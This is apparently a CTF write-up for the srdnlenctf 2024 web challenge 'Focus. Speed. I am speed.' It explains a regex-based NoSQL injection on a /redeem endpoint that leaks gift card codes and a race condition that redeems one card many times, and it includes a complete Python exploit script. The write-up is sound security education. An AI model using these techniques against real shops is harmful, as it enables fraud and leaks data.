 # srdnlenctf 2024

## Focus. Speed. I am speed. (X solves)

Welcome to Radiator Springs' finest store, where every car enthusiast's dream comes true! But remember, in the world of racing, precision matters—so tread carefully as you navigate this high-octane experience. Ka-chow!


### Solution

In this challenge, the objective is to exploit a **NoSQL Injection** vulnerability and a **Race Condition** to obtain the flag. The flag is embedded in the product named **"Lightning McQueen's Secret Text"**, priced at 50 points. Points can be accumulated by redeeming daily gift cards, which are vulnerable to exploitation.

---

#### Step 1: NoSQL Injection to Leak Gift Card Codes

The `/redeem` endpoint is vulnerable to **NoSQL Injection**, allowing the exfiltration of valid gift card codes. By crafting a malicious query parameter, you can differentiate between valid and invalid gift card codes based on the server's responses. 

Specifically, the parameter `?discountCode[$regex]=^` can be used to perform a **regex-based injection**, leveraging the server's response patterns:

- **Response 1:** `"You have already redeemed your gift card today"` indicates a valid gift card code.
- **Response 2:** `"Error redeeming gift card"` indicates an invalid or non-existent code.

This distinction enables iterative brute-forcing or character-by-character reconstruction of the full gift card code.

---

#### Step 2: Exploiting Race Condition for Points Duplication

Once a valid gift card code is obtained, a **Race Condition** can be exploited on the `/redeem` endpoint to redeem the same gift card multiple times simultaneously. This is achieved by sending concurrent requests before the backend can update the gift card's redemption status.

##### Attack Implementation

1. **Tools:** Use Burp Suite's Turbo Intruder or a race condition exploitation tool such as RequestsRacer.
2. **Approach:** Implement a **Last Byte Sync (LBS)** strategy, where overlapping requests are sent with minimal delays to maximize the chances of simultaneous execution.

---

#### Step 3: Purchasing the Flag Product

Once at least 50 points are acquired using the Race Condition exploit, navigate to the **store page** and purchase the product titled **"Lightning McQueen's Secret Text"** to retrieve the flag.

---

### Exploit

```python
#!/bin/env python3

from requests import Session
from string import ascii_letters, digits
from random import random
from requests_racer import SynchronizedSession

host = "http://speed.srdnlen.challs.it:80"

nosqli_path = "/redeem?discountCode[$regex]=^"
race_path = "/redeem"
path_register = "/register-user"
path_buy = "/store"
gift_card = ""
flag = ""

alphabet = ascii_letters + digits

# Function to register a user
def register_user(session, username, password):
    r = session.post(f'{host}{path_register}', json={'username': username, 'password': password})

def buy_flag(session):
    r = session.post(f'{host}{path_buy}', json={'productId': 4})
    response_json = r.json()  # Parse the JSON response
    flag = response_json.get("product", {}).get("FLAG", "FLAG not found")  # Safely get the FLAG value
    print(flag)


# Create a session
session = Session()

# Register a user
register_user(session, random(), 'srdnlen')

# Extract and print session cookies
cookies = session.cookies.get_dict()

# Main loop to discover the gift card code
while not flag.endswith("}"):
    if len(gift_card) == 12:
        break

    for c in alphabet:
        response = session.get(f"{host}{nosqli_path}{gift_card}{c}")
        if "Invalid discount code!" not in response.text:
            gift_card += c
            break  # Exit the loop when a match is found

#print(f"Discovered gift card: {gift_card}")

session.close()

# Create a session
session = Session()

# Register a user
register_user(session, random(), 'srdnlen')

# Extract and print session cookies
cookies = session.cookies.get_dict()

jwt_token = cookies.get('jwt', '')  # Default to empty string if 'jwt' is not found

headers = {
    "cookie": f"jwt={jwt_token}"  # Embeds the value of jwt_token
}

s = SynchronizedSession()

resp1 = s.get(host+race_path, params={'discountCode': gift_card}, headers=headers)
resp2 = s.get(host+race_path, params={'discountCode': gift_card}, headers=headers)
resp3 = s.get(host+race_path, params={'discountCode': gift_card}, headers=headers)
resp4 = s.get(host+race_path, params={'discountCode': gift_card}, headers=headers)
resp5 = s.get(host+race_path, params={'discountCode': gift_card}, headers=headers)
resp6 = s.get(host+race_path, params={'discountCode': gift_card}, headers=headers)
resp7 = s.get(host+race_path, params={'discountCode': gift_card}, headers=headers)
resp8 = s.get(host+race_path, params={'discountCode': gift_card}, headers=headers)
resp10 = s.get(host+race_path, params={'discountCode': gift_card}, headers=headers)
resp9 = s.get(host+race_path, params={'discountCode': gift_card}, headers=headers)


s.finish_all()

buy_flag(session)

```